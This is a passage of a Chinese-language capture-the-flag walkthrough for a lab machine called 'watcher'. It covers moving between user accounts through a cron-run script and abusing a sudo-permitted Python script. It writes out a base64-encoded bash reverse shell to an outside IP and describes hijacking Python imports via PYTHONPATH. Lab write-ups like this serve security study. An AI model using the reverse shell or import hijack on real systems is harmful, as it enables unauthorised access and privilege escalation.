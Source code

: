 在目标解码该base64字符串并写入cow.sh：

    toby@watcher:~/jobs$ echo "IyEvYmluL2Jhc2gKL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjE0LjM5LjQ4Lzk5OTkgMD4mMQo=" | base64 -d > ./cow.sh

开启nc监听，静等一小会，成功移动到mat

flag5:

    mat@watcher:~$ cat ./flag_5.txt

## 横向移动3 - python

查看note.txt:

    mat@watcher:~$ cat ./note.txt
    cat ./note.txt
    Hi Mat,

    I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

    Will

sudo -l:

    User mat may run the following commands on watcher:
        (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *

will_script.py:

    import os
    import sys
    from cmd import get_command

    cmd = get_command(sys.argv[1])

    whitelist = ["ls -lah", "id", "cat /etc/passwd"]

    if cmd not in whitelist:
        print("Invalid command!")
        exit()

    os.system(cmd)

cmd.py:

    def get_command(num):
        if(num == "1"):
            return "ls -lah"
        if(num == "2"):
            return "id"
        if(num == "3"):
            return "cat /etc/passwd"

我们可以修改python环境变量，然后创建一个cmd模块并创建get_command函数，里面是我们编写的代码：

    export PYTHONPATH=......$PYTHONPATH

当will_script运行时，将会先从我们设置的目录下查找我们编写的cmd模块。
